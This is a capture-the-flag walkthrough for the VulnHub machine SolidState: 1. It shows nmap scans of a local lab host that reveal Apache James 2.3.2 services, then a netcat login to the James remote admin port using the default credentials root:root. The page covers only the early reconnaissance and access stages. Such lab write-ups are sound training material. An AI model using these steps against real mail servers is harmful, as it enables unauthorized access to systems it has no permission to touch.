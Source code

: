 ### SolidState: 1

#### About
  - Name: SolidState: 1
  - Date release: 12 Sep 2018

  - Author: [Ch33z_plz](https://www.vulnhub.com/author/ch33z_plz,242/)
  - Series: [SolidState](https://www.vulnhub.com/series/solidstate,180/)

#### Description
It was originally created for HackTheBox

---------------

# Walkthrough

## Enumeration

***Nmap***

The first thing that stands out is the the JAMES services running (we've seen these before):

```
root@kali:~# nmap -Pn -sC -sV 192.168.165.136
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-25 17:20 EST
Nmap scan report for 192.168.165.136
Host is up (0.00073s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (192.168.165.135 [192.168.165.135]), PIPELINING, ENHANCEDSTATUSCODES,
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
MAC Address: 00:0C:29:75:23:E9 (VMware)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.52 seconds
```

So, naturally we want to check if the admin port is accessible and.... of coarse it is:

```
rroot@kali:~# nmap -Pn -sC -sV -p 4555 192.168.165.136
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-25 17:20 EST
Nmap scan report for 192.168.165.136
Host is up (0.00045s latency).

PORT     STATE SERVICE     VERSION
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
MAC Address: 00:0C:29:75:23:E9 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.46 seconds
```

***Netcat***

The next step is to connect to the admin port with netcat and check if it's still using the default credentials (root:root), which it is:

```
root@kali:~# nc 192.168.165.136 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```
